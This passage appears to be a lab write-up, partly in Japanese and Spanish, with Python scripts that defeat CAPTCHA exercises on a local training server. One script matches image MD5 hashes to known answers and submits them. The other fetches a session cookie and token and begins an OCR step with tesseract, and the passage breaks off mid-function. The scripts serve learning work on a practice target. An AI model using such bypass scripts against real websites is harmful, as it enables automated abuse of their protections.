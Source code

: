 ```python
#check if the md5 is = to the list already created.

if md5 == "FE9AC5CFB7B2438C900ED3E56C0E2CB0" : string = "0dayz"
elif md5 == "4c298cfa40e502fb644d9a5fdc9c6a11": string ="vulnerability"
elif md5 == "3761dd5bdb3dae4fc7ba3d5652b7bfc0": string = "security"
elif md5 == "4039a3ef7fc79e4adb60b43ac108d648": string = "admin"
elif md5== "93c985c35fa28eb819d91b5f55be7b65": string = "compromise"
elif md5== "3d0a2ab11fb9c59d19a9d95d56ea2e6d": string = "hacker"
elif md5 == "539746c4b3beae3e77773fa940d83d78": string = "petester"
elif md5 == "fe9ac5cfb7b2438c900ed3e56c0e2cb0" :string = "0dayz"
else:   print ("end")

print (""+string)

url = "http://192.168.100.167/captcha/example5/submit?captcha="+string+"&submit=Submit+Query" #Answer that the webpage sends to the server to validate.
r = requests.get(url, cookies=cj) # send the request with the cookie set to the server
print (r)
```
![aad19b11dfe5e5ec65e8434967ab29ab.png](../../_resources/aad19b11dfe5e5ec65e8434967ab29ab.png)

# <span style="color: blue;">Example 6</span>
この演習では、キャプチャを回避するために、テッセラクトのようなOCRツールを使用する必要があります。そのためには、画像をダウンロードし、次のコードでtesseractを実行するスクリプトを作成する必要があります： 'tesseract imagefile.png' これにより、captchaレスポンスのout.txtファイルが作成されます。
まず、tesseractをインストールします。
```
sudo apt-get install tesseract-ocr
```

```python
from PIL import Image
from urllib.error import *
from urllib.request import *
from urllib.parse import *
import subprocess
import urllib,  requests, re, json

def getpage():
    try:
        print("[+] Descargando Pagina");  
        site = urllib.request.urlopen("http://192.168.100.167/captcha/example6/")
        global cookie
        cookie = site.getheader('Set-Cookie')
        print("-----Cookie extraida: " + cookie);
        site_html = site.read().decode("utf-8")
        #print(site_html)
        global token
        #Obtener el token (10 numeros + . + 7 numeros
        token = re.findall('[(\\d+.\\d+)]{18}', site_html)
        print ("-----Token: " + token[0])
    except URLError as e:
        print ("*****Error: No puede descargar la pagina*****");

 
def getcaptcha():
    try:
        print("[+] Descargando Captcha"); 
```